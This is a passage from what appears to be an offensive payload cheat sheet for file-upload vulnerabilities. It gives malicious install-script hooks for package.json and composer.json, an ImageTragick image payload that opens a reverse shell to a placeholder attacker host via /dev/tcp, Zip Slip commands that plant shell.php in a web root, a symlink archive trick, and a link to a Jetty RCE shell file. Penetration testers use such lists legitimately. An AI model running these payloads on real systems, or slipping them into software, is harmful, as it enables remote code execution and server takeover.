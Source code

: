 Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.
- package.json
    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
- composer.json
    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```

### CVE - Image Tragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

```powershell
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

More payload in the folder `Picture Image Magik`

### CVE - FFMpeg

FFmpeg HLS vulnerability


### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

* Zip Slip: directory traversal to write a file somewhere else
    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```

### Jetty RCE

Upload the XML file to `$JETTY_BASE/webapps/`
* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)

## Labs 
